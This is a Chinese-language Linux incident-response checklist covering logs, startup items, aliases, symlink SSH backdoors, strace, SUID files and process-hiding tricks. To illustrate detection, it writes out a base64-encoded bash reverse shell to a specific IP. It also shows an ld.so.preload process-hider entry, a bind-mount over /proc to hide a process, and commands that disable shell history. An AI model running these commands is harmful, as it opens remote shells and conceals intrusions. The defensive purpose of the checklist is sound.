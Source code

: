 <a name="uzW3O"></a>
## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639479854152-07bee894-34dd-4f99-854e-d17d0532d1bf.png#clientId=uda355058-5074-4&from=paste&height=295&id=u331b65c7&originHeight=589&originWidth=1398&originalType=binary&ratio=1&size=195614&status=done&style=none&taskId=u3b012942-f26f-48ac-ac04-9ad6c68c22e&width=699)

进入linux系统排查的时候，先把history导出来，然后进行无痕操作避免记录了操作干扰环境<br />export HISTFILE=/dev/null export HISTSIZE=0

<a name="NEPXa"></a>
## 日志
日志的路径<br />[http://c.biancheng.net/view/1097.html](http://c.biancheng.net/view/1097.html)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639486610541-142d9ea8-0b2c-4a72-8077-10f4e148a205.png#clientId=ufd18ab5a-39e6-4&from=paste&height=297&id=ue8d94042&originHeight=655&originWidth=1201&originalType=binary&ratio=1&size=119048&status=done&style=none&taskId=uf186cc4f-52d4-4929-bcec-4d556ef6b93&width=545.4000244140625)
<a name="Eqqot"></a>
## 启动项
sh脚本以服务方式启动<br />直接查看/etc/init.d/目录下的sh脚本启动项，cat一下看看有没有异常的内容<br />ls /etc/init.d/ | grep ".sh"<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639480549999-3f091199-4eab-438b-acc3-f8871d152f33.png#clientId=uda355058-5074-4&from=paste&height=197&id=u79438e35&originHeight=272&originWidth=706&originalType=binary&ratio=1&size=66517&status=done&style=none&taskId=uab57a5e0-e231-4881-98aa-db10f6341e9&width=511)

<a name="RpNjG"></a>
## alias别名
alias<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639464519893-a019ba96-cbed-4a74-be23-e7d8e3f52ad3.png#clientId=ub8921103-b99a-4&from=paste&height=284&id=ua4737ac7&originHeight=214&originWidth=220&originalType=binary&ratio=1&size=26553&status=done&style=none&taskId=u17dd64a1-8260-451e-b80e-c6824455f80&width=292)

alias ls="whoami;ifconfig"<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639464540909-e85003cc-2164-4894-8479-87a9939f507e.png#clientId=ub8921103-b99a-4&from=paste&height=278&id=ufbabdaff&originHeight=434&originWidth=595&originalType=binary&ratio=1&size=116155&status=done&style=none&taskId=u79e83f49-1319-4b4f-8b08-53aa3c311c9&width=381.5)

删除创建的别名<br />用法：unalias 命令别名

<a name="ERGuz"></a>
## 环境变量定义的目录下的文件替换
echo $path 获取服务器的环境变量<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639481069335-1025982f-b9eb-4450-beb6-e432be9dbe88.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=47&id=u6d9d9205&originHeight=64&originWidth=723&originalType=binary&ratio=1&size=12213&status=done&style=none&taskId=udd22c9a0-0735-45b2-8313-e216bf1074d&width=531.5)

常见的环境变量都会在/usr/bin     /usr/share/man路径下，碰到其他的路径下的常见 ls、ipconfig、netstat等命令可以去执行一下看看是不是被替换的环境，也可以进行hash的比对<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639481124407-51eee3f2-9b1c-4635-b8a0-6bfff25d0afe.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=78&id=u07e4d6dc&originHeight=75&originWidth=390&originalType=binary&ratio=1&size=10695&status=done&style=none&taskId=ue6f90f56-a46d-47a6-abd8-4bff5a2720e&width=403)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639481147039-4cdad7b4-b9b1-4303-b8a1-361043a7976d.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=78&id=u379aecfd&originHeight=79&originWidth=417&originalType=binary&ratio=1&size=6051&status=done&style=none&taskId=ua3e4bdf7-dc86-48a4-b203-1801241ea1c&width=411.5)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639481446992-b01bd04b-9264-472b-af9d-16d978b86649.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=52&id=u7f4e0eea&originHeight=58&originWidth=461&originalType=binary&ratio=1&size=11423&status=done&style=none&taskId=u110134c1-fd84-4f86-abfd-b7d94714fbb&width=413.5)

常见的可疑路径/usr/local/bin/<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639481960564-55eef26a-c890-4606-91ce-6c9a7c648132.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=156&id=u158fe84b&originHeight=157&originWidth=408&originalType=binary&ratio=1&size=55412&status=done&style=none&taskId=u05632a07-8d57-45a1-b705-b5c5bc15849&width=406)
<a name="D1pFl"></a>
## 软连接
软链接创建<br />ln -s /etc/passwd /tmp/1

删除软连接<br />rm -rf  创建链接名<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639473371073-d2d2d753-6ade-4006-817e-ec5a6633add6.png#clientId=u401f801b-3800-4&from=paste&height=214&id=u146dcbaa&originHeight=234&originWidth=428&originalType=binary&ratio=1&size=38263&status=done&style=none&taskId=u8cc93fe8-8f60-454b-9d24-ecb6ae04cda&width=392)<br />判断软连接(只有在对应的生成目录才能看到相关的软连接)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639481932358-f30b3428-87e1-4c34-bbb8-8f8579babb93.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=257&id=u0e0cdaf9&originHeight=363&originWidth=590&originalType=binary&ratio=1&size=107287&status=done&style=none&taskId=u05c895e0-3e90-46c0-a752-1e27a91e52f&width=418)

ls -lR | grep ^l<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639482533257-b2f9dfa8-2cd7-40bf-bbb9-f76d395711c4.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=106&id=u5f55f535&originHeight=176&originWidth=759&originalType=binary&ratio=1&size=41037&status=done&style=none&taskId=ubaf0fc38-8cae-42c2-a885-f9f13a0286f&width=456.5)

<a name="KWUZ6"></a>
## ssh软链接后门
find / -type l -ls |grep sshd (全局搜索软连接，并筛查出sshd相关的内容<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639482524238-6acf7b94-1f79-4f66-a400-c6c77aca27bd.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=123&id=uafdded99&originHeight=176&originWidth=759&originalType=binary&ratio=1&size=41037&status=done&style=none&taskId=u5a8b6b12-f166-465a-ae40-842a40b4b03&width=528.5)<br />ssh软链接后门相关链接 [http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/](http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/)

排查：<br />1. 查看/etc/pam.d目录中有哪些文件包含auth sufficient pam_rootok.so配置；<br />find /etc/pam.d | xargs grep "pam_rootok.so"<br />2. 找到这些文件的异常端口和进程，杀死可疑进程；<br />netstat –anplt | grep –E "su | chfn | chsh | runuser"<br />ps –aux | grep PID号<br />kill -9 PID号<br />3. 找到创建的软链接文件进行删除；<br />ls -il<br />rm -rf 文件名<br />查看调用的

<a name="NXTg0"></a>
## strace查看跟踪调用的文件
strace -o /tmp/1.txt ps<br />cat 1.txt|grep ".so"<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639484251754-4c671970-ee5c-42a5-97c4-7cb90442619e.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=251&id=u86e4fe23&originHeight=333&originWidth=697&originalType=binary&ratio=1&size=138263&status=done&style=none&taskId=ud036961f-6f83-44e6-bb63-949f5aaa659&width=525.5)

查看文件执行中做的操作<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639484301706-94fd918e-3fff-4f8a-9654-6eefec7b125d.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=478&id=u5adbea2a&originHeight=512&originWidth=574&originalType=binary&ratio=1&size=157856&status=done&style=none&taskId=ucd72e51b-ed0b-493b-9d4b-ab0d3b688a5&width=536)

strace –f –e trace=file –p [PID]  跟踪进程的文件操作行为。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639485473961-22163bde-6623-40bf-aea3-3cf7d003624a.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=283&id=ub8b7e972&originHeight=486&originWidth=963&originalType=binary&ratio=1&size=381609&status=done&style=none&taskId=uff3ff8b2-a2eb-456f-8da3-98e7fe2f7a8&width=560.5)

<a name="d0yLF"></a>
## strings查看文件内容
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639478610801-9a88ca5f-908b-43a1-8043-2439af254c63.png#clientId=uda355058-5074-4&from=paste&height=376&id=u80dea816&originHeight=404&originWidth=565&originalType=binary&ratio=1&size=43874&status=done&style=none&taskId=udee4fb01-d681-4e7c-982e-62b8b66f168&width=526.5)
<a name="asw4D"></a>
## stat查看文件落地时间
一般找ctime、atime，ctime一般文件创建后时间就不会变，除非系统时间变了<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639487046424-0b98f7a0-614d-473f-be42-a31bfbb47222.png#clientId=ufd18ab5a-39e6-4&from=paste&height=151&id=u8360188b&originHeight=188&originWidth=576&originalType=binary&ratio=1&size=36808&status=done&style=none&taskId=uc4ea4edf-5b76-4287-a410-8723fd0fd09&width=464)
<a name="Eo9f5"></a>
## RPM校验可疑的包
rpm -Vf <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639484822612-12e938ba-0d0a-4090-bbbc-6b2f0265bcdc.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=190&id=uc4676483&originHeight=354&originWidth=949&originalType=binary&ratio=1&size=322735&status=done&style=none&taskId=u3dcc6810-a433-402f-98ed-84d2faa0693&width=509.5)

<a name="kwPan"></a>
## ldd查看文件运行的依赖
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639485645982-0c789178-1069-4886-a02f-b1cd379595ff.png#clientId=u41fe0fc0-9ac9-4&from=paste&height=124&id=uff95b824&originHeight=164&originWidth=653&originalType=binary&ratio=1&size=39136&status=done&style=none&taskId=u176cb96b-5a6a-4705-931b-6d6e85ed205&width=492.5)

<a name="mhXow"></a>
## 查找时间范围内安装的文件
find / -type f -newerct '2021-12-14 00:00:00' -not -newerct '2021-12-14 23:59:59' <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639530554155-d78a9907-5e90-4bfb-bde0-0d8411c77792.png#clientId=ufd18ab5a-39e6-4&from=paste&height=288&id=u8afba549&originHeight=414&originWidth=717&originalType=binary&ratio=1&size=82013&status=done&style=none&taskId=u9d1cd956-28a5-4516-aac2-e9968def60f&width=498.5)

<a name="LvyxM"></a>
## 管道符隐藏进程排查
有时候攻击者通过利用管道符来隐藏进程中的ip信息<br />echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNC4yMzYuOTUvODg4OCAwPiYxCg=="|base64 --decode|bash -i<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543045398-a4723e6d-ac37-4ede-85cd-a72b998cd611.png#clientId=u0cceb63d-6021-4&from=paste&height=93&id=u44825e22&originHeight=137&originWidth=791&originalType=binary&ratio=1&size=33338&status=done&style=none&taskId=u911928d3-cb7e-47d8-8140-6a77ad135de&width=535.5)

这个时候bash是没有ip端口内容的<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543070033-3690c447-6ecb-4889-b806-0fde6b3dccf8.png#clientId=u0cceb63d-6021-4&from=paste&height=172&id=u5b663e54&originHeight=239&originWidth=771&originalType=binary&ratio=1&size=94389&status=done&style=none&taskId=ub82c8fce-ca42-4f0b-bb21-10bee2fb3fe&width=554.5)

排查：

排查需要lsof -p去指定进程id，看到外联行为<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543141520-ea5a0e6d-5086-4c14-a9f2-79121f0ce51c.png#clientId=u0cceb63d-6021-4&from=paste&height=201&id=u6c999333&originHeight=350&originWidth=937&originalType=binary&ratio=1&size=138059&status=done&style=none&taskId=uc26e3d1e-6cde-405d-9cd8-67e9cf18493&width=537.5)

使用strace -p指定进程ip，可以获取攻击者输入的命令内容<br />内容全局搜索write(2, 就能获取到攻击者执行的命令<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543319497-3bfeb453-b69e-4f84-b338-94f285b824f2.png#clientId=u0cceb63d-6021-4&from=paste&height=190&id=u68a724f9&originHeight=264&originWidth=615&originalType=binary&ratio=1&size=33446&status=done&style=none&taskId=u5fb636c8-37d2-439e-8099-d6cc33800c1&width=442.5)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543333033-c8614715-39b7-4297-9e3f-bd0c6a324703.png#clientId=u0cceb63d-6021-4&from=paste&height=128&id=u47ada66b&originHeight=123&originWidth=424&originalType=binary&ratio=1&size=11094&status=done&style=none&taskId=ub9417813-cec9-468a-ab29-a28b3794a2a&width=441)

还可以用ll /proc/pid/fd 通过判断 0、1、2以及 tty等字眼去判断<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543567618-2216dbf8-f3d5-4e03-84d6-3e70904f637e.png#clientId=u3d87270a-07ec-4&from=paste&height=68&id=u9640c06a&originHeight=136&originWidth=1051&originalType=binary&ratio=1&size=62514&status=done&style=none&taskId=u65082c23-f08a-47a1-a9f0-85b33fc2f24&width=525.5)

<a name="Xo3yw"></a>
## 预加载劫持
异常的现象就是执行一些基础命令，会异常显示<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639545985803-9425d8c1-e1d7-43fd-8250-beb0b3e3e1e7.png#clientId=u5df6660b-aec9-4&from=paste&height=67&id=ub90c2213&originHeight=87&originWidth=644&originalType=binary&ratio=1&size=33944&status=done&style=none&taskId=uc25d821f-5f5f-466b-a62f-7d626cbb35d&width=495)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639546195622-9ef3f05d-2e8d-4950-b42f-debe95373878.png#clientId=u5df6660b-aec9-4&from=paste&height=129&id=ua760c63c&originHeight=257&originWidth=1151&originalType=binary&ratio=1&size=45701&status=done&style=none&taskId=u20493ebd-d187-41f3-9e23-5a9b40967bc&width=575.5)<br />操作是编译一个so文件 替换掉/etc/下<br /> echo /usr/mytool/mytest/libprocesshider.so >> /etc/ld.so.preload  

使用strace追踪查看被替换的.so ，把access删除掉就可以恢复正常了<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639545892232-1f7bbdc2-1f79-463f-a11c-6c698def997f.png#clientId=u5df6660b-aec9-4&from=paste&height=323&id=ud98d521e&originHeight=480&originWidth=797&originalType=binary&ratio=1&size=229184&status=done&style=none&taskId=u5fc223ee-b621-400d-a550-8a6b90b50d0&width=535.5)

<a name="QYXwn"></a>
## 挂载隐藏进程

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639622797979-59bf77c0-d70b-485a-8165-813d7593969a.png#clientId=u35fae950-8a85-4&from=paste&height=50&id=ubdf4cba8&originHeight=71&originWidth=770&originalType=binary&ratio=1&size=25187&status=done&style=none&taskId=uf4397c46-4d62-45fa-9251-13995a79f10&width=541)<br />创建一个空目录进行挂载 /tmp/test<br />通过挂载，隐藏了执行1.py的进程<br />mount -o bind /tmp/test /proc/177956<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639622964623-e88345b2-2f16-47a6-b457-e83885dab3e1.png#clientId=u35fae950-8a85-4&from=paste&height=120&id=uc985e5a1&originHeight=185&originWidth=811&originalType=binary&ratio=1&size=43237&status=done&style=none&taskId=u8343d297-7cfa-4e66-bb2f-673c6862749&width=526.5)<br />umonut -v /proc/177956 恢复之前的路径<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639623093171-c8a1f99b-247c-49fd-a86a-bdf85571d733.png#clientId=u35fae950-8a85-4&from=paste&height=166&id=ue5c49af6&originHeight=270&originWidth=859&originalType=binary&ratio=1&size=68263&status=done&style=none&taskId=u8e223db9-616f-4ef7-9978-ed385b9889a&width=527.5)

排查：<br />直接mount关注一下/proc/pid进程，然后umonut取消挂载，就可以很顺利的找到攻击者的样本<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639623142896-21fbd397-c5bf-4930-aed4-63d7ad0e0984.png#clientId=u35fae950-8a85-4&from=paste&height=391&id=u0dc19b80&originHeight=578&originWidth=784&originalType=binary&ratio=1&size=241212&status=done&style=none&taskId=u105af381-5192-49b8-9c55-74315cc3209&width=531)

<a name="z7hX0"></a>
## suid提权
find / -perm -u=s -type f 2>/dev/null 找到存在suid权限的文件<br />[https://www.anquanke.com/post/id/86979](https://www.anquanke.com/post/id/86979)<br />例如：<br />用低权限用户，找到suid的文件，然后执行，发现是root组<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639617340298-7ccb67bf-fdde-4ccd-b2d6-d6ce481ae91b.png#clientId=u780eeea1-3161-4&from=paste&height=299&id=u8d9559e2&originHeight=454&originWidth=802&originalType=binary&ratio=1&size=57126&status=done&style=none&taskId=u44dfb99c-dd3e-4cbe-af19-a7247447df5&width=529)


